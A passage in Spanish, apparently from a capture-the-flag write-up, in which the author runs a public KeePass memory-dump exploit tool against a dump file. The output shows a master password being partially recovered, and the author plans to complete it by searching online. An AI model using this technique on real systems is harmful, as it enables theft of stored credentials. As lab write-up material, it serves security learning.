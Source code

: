Por lo que se busca un script en github para realizar la explotacion del CVE encontrando https://github.com/vdohney/keepass-password-dumper
~~~bash
python3 keepass_dump.py -f ../KeePassDumpFull.dmp --skip --debug 
[*] Skipping bytes
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 12358616 | Found: ●●d
[*] 12359636 | Found: ●●d
[*] 12361106 | Found: ●●●g
[*] 12362154 | Found: ●●●g
[*] 12363716 | Found: ●●●●r
[*] 12364772 | Found: ●●●●r
[*] 12381216 | Found: ●●●●●●d
[*] 12382320 | Found: ●●●●●●d
[*] 12384154 | Found: ●●●●●●● 
[*] 12385298 | Found: ●●●●●●● 
[*] 12387028 | Found: ●●●●●●●●m
[*] 12388180 | Found: ●●●●●●●●m
[*] 12389814 | Found: ●●●●●●●●●e
[*] 12390826 | Found: ●●●●●●e
[*] 12392688 | Found: ●●●●●●●●●●d
[*] 12393848 | Found: ●●●●●●●●●●d
[*] 12395850 | Found: ●●●●●●●●●●● 
[*] 12396878 | Found: ●●●●●●●●●●● 
[*] 12398908 | Found: ●●●●●●●●●●●●f
[*] 12399944 | Found: ●●●●●●●●●●●●f
[*] 12402046 | Found: ●●●●●●●●●●●●●l
[*] 12403090 | Found: ●●●●●●●●●●●●●l
[*] 12420202 | Found: ●●●●●●●●●●●●●●●d
[*] 12421266 | Found: ●●●●●●●●●●●●●●●d
[*] 12423388 | Found: ●●●●●●●●●●●●●●●●e
[*] 12424460 | Found: ●●●●●●●●●●●●●●●●e
[*] 10000000 bytes since last found. Ending scan.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  <{d, e}>
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgr<{d, e}> med flde
~~~
Al correr el script entrega este resultado, parece que la contraseña no esta del todo completa y le faltan algunas letras y mas desconocidas.
Al buscar mas scripts no se pudo encontrar nada mas util, por lo que despues de horas pensando, se me ocurrio buscar el resultado en internet para ver que podria ser.
